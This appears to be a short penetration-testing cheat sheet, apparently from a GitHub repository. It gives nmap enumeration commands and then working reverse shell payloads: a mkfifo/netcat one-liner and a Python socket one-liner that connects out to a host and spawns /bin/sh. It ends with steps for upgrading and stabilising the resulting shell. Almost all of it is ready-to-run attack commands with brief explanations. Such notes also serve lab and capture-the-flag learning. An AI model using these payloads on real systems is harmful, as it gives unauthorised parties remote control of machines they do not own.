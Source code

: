 # Enumeration

```
nmap -sC -sV -p 1-10000 <ip>
```
-sC: to perform default script scans\
-sV: Probe open ports to determine service/version info\
-p: ports to scan

We can also use the following which only scans open ports.
```
ports=$(nmap -p- --min-rate=1000 -T4 <ip> | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports <ip>
```

# Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
